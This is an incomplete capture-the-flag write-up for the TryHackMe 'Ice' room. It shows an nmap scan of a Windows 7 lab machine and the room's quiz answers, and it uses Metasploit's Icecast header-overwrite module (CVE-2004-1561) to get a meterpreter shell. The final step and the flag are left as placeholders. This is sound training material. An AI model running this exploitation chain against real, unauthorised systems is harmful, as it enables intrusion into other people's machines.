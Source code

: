# CTF Writeup: TryHackMe - Ice

## Challenge Description

Deploy & hack into a Windows machine, exploiting a very poorly secured media server.

https://tryhackme.com/room/ice

## Solution

### Reconnaissance

Let's begin by conducting a scan of the machine to identify any open ports. We then notice Icecast is running on port 8000, RDP on port 3389 and the hostname of the machine is DARK-PC.

```
$ nmap -sC -sV 10.10.58.222
...
Not shown: 988 closed ports
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=Dark-PC
| Not valid before: 2023-01-28T15:22:55
|_Not valid after:  2023-07-30T15:22:55
|_ssl-date: 2023-01-29T15:27:23+00:00; 0s from scanner time.
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http          Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49159/tcp open  msrpc         Microsoft Windows RPC
49160/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:E5:43:F5:04:E1 (Unknown)
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:e5:43:f5:04:e1 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-29T09:27:23-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-01-29 15:27:23
|_  start_date: 2023-01-29 15:22:54

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.17 seconds
```

### Gain Access

This machine is using a vulnerable version of Icecast which is a streaming media server.

```
1. What type of vulnerability does Icecast use ? https://www.cvedetails.com/cve/CVE-2004-1561/
Execute Code Overflow

2. What is the CVE number for this vulnerability?
CVE-2004-1561
An exploit can be found on exploit-db here: https://www.exploit-db.com/exploits/568

```

Using msfconsole for exploitation
```
$ msfconsole
msf5 > search icecast
Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite

msf5 > use 0
msf5 exploit(windows/http/icecast_header) > run RHOSTS=10.10.58.222
...
meterpreter >
```

```
3. What is the full path (starting with exploit) for the exploitation module?
exploit/windows/http/icecast_header

4. What is the only required setting which currently is blank?
rhosts

```



### Step 3

[Description of third step goes here]

## Flag

[Flag goes here]
